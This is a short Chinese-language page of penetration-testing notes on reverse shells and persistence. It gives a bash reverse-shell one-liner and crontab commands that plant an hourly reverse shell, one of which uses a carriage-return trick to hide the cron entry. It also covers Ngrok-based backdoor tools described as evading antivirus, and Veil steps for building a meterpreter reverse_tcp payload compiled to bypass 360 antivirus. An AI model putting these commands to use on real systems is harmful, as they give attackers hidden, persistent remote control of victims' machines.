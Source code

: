 > http://rcoil.me/2018/05/%E5%85%B3%E4%BA%8Ewindows%E7%9A%84RDP%E8%BF%9E%E6%8E%A5%E8%AE%B0%E5%BD%95/

### linux bash

> bash -i >& /dev/tcp/10.0.0.1/8080 0>&1

``bash -i`` 交互的 shell 

``&`` 标准错误输出到标准输出

``/dev/tcp/10.0.0.1/8080`` 建立 socket ip port

``0>&1`` 标准输入到标准输出

> (crontab -l;echo '*/60 * * * * exec 9<> /dev/tcp/IP/port;exec 0<&9;exec 1>&9 2>&1;/bin/bash --noprofile -i')|crontab -

猥琐版

> (crontab -l;printf "*/60 * * * * exec 9<> /dev/tcp/IP/PORT;exec 0<&9;exec 1>&9 2>&1;/bin/bash --noprofile -i;\rno crontab for whoami%100c\n")|crontab -

详细介绍

> https://github.com/tom0li/security_circle/blob/master/15288418585142.md

### ngrok-backdoor

Grok-backdoor 是一个简单的基于 python 的后门，它使用 Ngrok 隧道进行通信。Ngrok 后门可以使用 Pyinstaller 生成 windows，linux 和 mac 二进制文件。

虽然免杀，但如果开 win 防火墙会提示，生成后门时会询问是否捆绑 ngrok，选择 no 时，在被攻击机执行时需联网下载 ngrok，运行后，telnet 连接即可.

> https://github.com/deepzec/Grok-backdoor

### veil

这里，安装问题有点多，我用 kali-2018-32 安装成功，先安装下列依赖，后按照官方即可。

> apt-get install libncurses5*
>
> apt-get install libavutil55*
>
> apt-get install gcc-mingw-w64*
>
> apt-get install wine32

生成shell

> ./Veil.py
>
> use 1
>
> use c/meterpreter/rev_tcp 

在 win 用 mingw 下 gcc 编译 bypass 360

> gcc -o v.exe v.c -lws2_32 
